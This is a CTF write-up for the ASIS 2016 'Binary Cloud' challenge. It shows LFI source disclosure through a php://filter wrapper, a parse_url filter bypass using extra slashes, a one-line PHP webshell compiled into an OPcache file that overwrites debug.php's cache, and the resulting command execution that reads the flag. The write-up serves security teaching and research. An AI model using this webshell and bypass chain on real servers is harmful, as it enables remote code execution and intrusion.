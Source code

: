```yaml
---
layout: post
title: Binary Cloud
category: ASIS 2016
---
```


You can upload anything you want! (But please, do not inject php files.)
Due to the security issues, you can only upload one file per request.
Note that the server removes all uploaded/cached files every minute.

Regards,
ASIS Team.

---

#### The Challenge

This was a very fun challenge for me, as it was based off my own [research](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

**1. Information Gathering**

I started things off by looking for a `robots.txt` file.

Going to `https://binarycloud.asis-ctf.ir/robots.txt` shows us three entries :

![robots](/assets/img/asis-2016/robots.png){:width="200"}

Visiting the `/cache` and `/uploads` pages show us a `forbidden` message.
On the other hand, following the link `/debug.php` gives us a `phpinfo()` page!

![phpinfo](/assets/img/asis-2016/phpinfo.png)

From this page, we know that they're running PHP 7.0.4.

As the description and `robots.txt` mentionned cache files, I checked if OPcache is enabled. Turns out it is, and its location corresponds to the `/cache` folder found in the robots.txt file :

``` ini
opcache.file_cache=/home/binarycloud/www/cache
```
**2. Obtaining the Source Code**

Looking at the URLs, we can notice right away a potential LFI vulnerability, as the upload module URL looks like the following :

```
https://binarycloud.asis-ctf.ir/?page=upload
```

We can use [PHP wrappers](http://php.net/manual/en/wrappers.php.php) to obtain the source code :

```
http://binarycloud.asis-ctf.ir?page=php://filter/convert.base64-encode/resource=upload
```

Viewing the source of the URL above will give us the `base64` encoded source code :

![base64](/assets/img/asis-2016/base64.png)

This is a section of the `upload.php` script :

``` php
<?php
function ew($haystack, $needle) {
    return $needle === "" || (($temp = strlen($haystack) - strlen($needle)) &gt;= 0 &amp;&amp; strpos($haystack, $needle, $temp) !== false);
}

function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}

function error($msg){
  die("&lt;script&gt;alert('$msg');history.go(-1);&lt;/script&gt;");
}

filter_directory();

if($_SERVER['QUERY_STRING'] &amp;&amp; $_FILES['file']['name']){
  if(!file_exists($_SERVER['QUERY_STRING'])) error("error3");
  $name = preg_replace("/[^a-zA-Z0-9\.]/", "", basename($_FILES['file']['name']));
        if(ew($name, ".php")) error("error");
  $filename = $_SERVER['QUERY_STRING'] . "/" . $name;
  if(file_exists($filename)) error("exists");
  if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)){
    die("uploaded at &lt;a href=$filename&gt;$filename&lt;/a&gt;&lt;hr&gt;&lt;a href='javascript:history.go(-1);'&gt;Back&lt;/a&gt;");
  }else{
    error("error");
  }
}
?>
```

From this code, we know that :

  - We can't upload `.php` files.
  - Our request URI must not contain the strings `cache` or `binarycloud`.
  - Our filename is filtered through `preg_replace()` and `basename()`.

Since we can't upload `.php` files, the goal will most likely be to inject `.php.bin` files in the `/cache` folder so we can run our own code.

**3. Bypass filter_directory()**

The upload module takes the query string of our POST request and uses it as the destination folder for our file.

Sending a POST request at `/upload.php?TEST` will try to upload our file in the `TEST/` folder.

Since we want to upload in the `cache/` folder, we need to send our POST request to `/upload.php?cache`.
The problem here is that `filter_directory` will block us from using the `cache` keyword :

``` php
<?php
function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}
?>
```

This function can be bypassed though, as `parse_url` takes a `URL` as a parameter. It does not deal well with `URIs`.

Sending a request to `///upload.php?cache` (note the additional slashes) will make `parse_url()` interpret the `URI` as a malformed `URL` and will return `false`. Therefore, `preg_match()` will never match the filtered strings.

**4. Creating our Payload**


As we've mentionned earlier, the challenge uses OPcache as their caching engine.

Our goal is to override the cache file of either `debug.php`, `index.php` or `upload.php`, so that when we'll request those pages, the webserver will serve up our malicious cache file instead of the original content.

We'll need my tools on [github](https://github.com/GoSecure/php7-opcache-override). We also have a full guide on how to override cache files here : http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

From the `debug.php` page, we know that it's an x86_64 platform. I deployed a 64 bit Ubuntu VM with PHP 7 installed and I generated a cache file named `debug.php.bin`.

The generated cache file is a compiled version of the following webshell :

``` php
<?php
  system($_GET['cmd']);
?>
```

I then calculated the `system_id` used by our target webserver by using the `system_id_scraper.py` script found in my github repo :

``` shell
$ ./system_id_scraper.py https://binarycloud.asis-ctf.ir/debug.php
PHP version : 7.0.4-7ubuntu2
Zend Extension ID : API320151012,NTS
Zend Bin ID : BIN_SIZEOF_CHAR48888
Assuming x86_64 architecture
------------
System ID : 81d80d78c6ef96b89afaadc7ffc5d7ea
```

Finally, I changed the `system_id` of `debug.php.bin` with the one of the server using a hex editor.

The resulting `debug.php.bin` is a compiled version of a webshell configured to be used by the server's OPcache.

**5. Finale**

Finally, it's time to send our payload.

I uploaded the `debug.php.bin` file and intercepted it with Burpsuite. At this point, we have to set the path of the server-side `debug.php.bin` that we want to overwrite.

The path of the current `debug.php.bin` is at `[cache location][system id][document root][debug.php.bin]`. The only thing missing is the document root, which is available in the `/debug.php` page.

We also need to add the extra slashes to bypass the `filter_directory()` function.

Here's my payload :

![payload](/assets/img/asis-2016/payload.png)

Now, when we navigate to `https://binarycloud.asis-ctf.ir/debug.php`, we have our webshell!

The flag is located at the root of the filesystem :

``` shell
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="ls /"
WH4T_1S_7H3_FL4G
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
``` shell
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="cat /WH4T_1S_7H3_FL4G"
ASIS{5e00f204374f9ce481acc97294eda1f0}
```

**Flag :** ASIS{5e00f204374f9ce481acc97294eda1f0}
